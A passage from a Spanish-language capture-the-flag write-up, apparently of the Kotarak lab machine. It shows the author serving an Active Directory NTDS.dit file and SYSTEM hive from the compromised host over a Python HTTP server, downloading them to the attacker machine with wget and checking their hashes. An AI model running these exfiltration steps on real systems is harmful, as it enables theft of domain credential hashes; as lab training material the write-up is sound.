 Buscando un poco, los archivos hacen referencia a los datos obtenidos de un pentest asocido a un dominio con *Active Directory*. Asi que vamos vamos a traerlos a nuestra máquina de atacante compartiendo un servidor con python desde la máquina víctima:

```bash
tomcat@kotarak-dmz:/home/tomcat/to_archive/pentest_data$ python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
10.10.14.16 - - [19/Oct/2021 16:57:45] "GET /20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit HTTP/1.1" 200 -
10.10.14.16 - - [19/Oct/2021 16:57:59] "GET /20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin HTTP/1.1" 200 -
```

```bash
❯ wget http://10.10.10.55:8000/20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit
--2021-10-19 15:52:55--  http://10.10.10.55:8000/20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit
Conectando con 10.10.10.55:8000... conectado.
Petición HTTP enviada, esperando respuesta... 200 OK
Longitud: 16793600 (16M) [application/octet-stream]
Grabando a: «20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit»

20170721114636_default_192.168.1 100%[=======================================================>]  16.02M  4.79MB/s    en 3.6s    

2021-10-19 15:52:59 (4.43 MB/s) - «20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit» guardado [16793600/16793600]

❯ wget http://10.10.10.55:8000/20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin
--2021-10-19 15:53:09--  http://10.10.10.55:8000/20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin
Conectando con 10.10.10.55:8000... conectado.
Petición HTTP enviada, esperando respuesta... 200 OK
Longitud: 12189696 (12M) [application/octet-stream]
Grabando a: «20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin»

20170721114637_default_192.168.1 100%[=======================================================>]  11.62M  3.69MB/s    en 3.2s    

2021-10-19 15:53:13 (3.69 MB/s) - «20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin» guardado [12189696/12189696]

❯ mv 20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit ntds.dit
❯ mv 20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin system.bin
```

Antes de cualquier cosa, vamos a validar la integridad de la información:

```bash
tomcat@kotarak-dmz:/home/tomcat/to_archive/pentest_data$ md5sum *
f6849066d0e179ca24078906f5c5ee01  20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit
f41191f7536a19abefa557c419bf5281  20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin
tomcat@kotarak-dmz:/home/tomcat/to_archive/pentest_data$
```
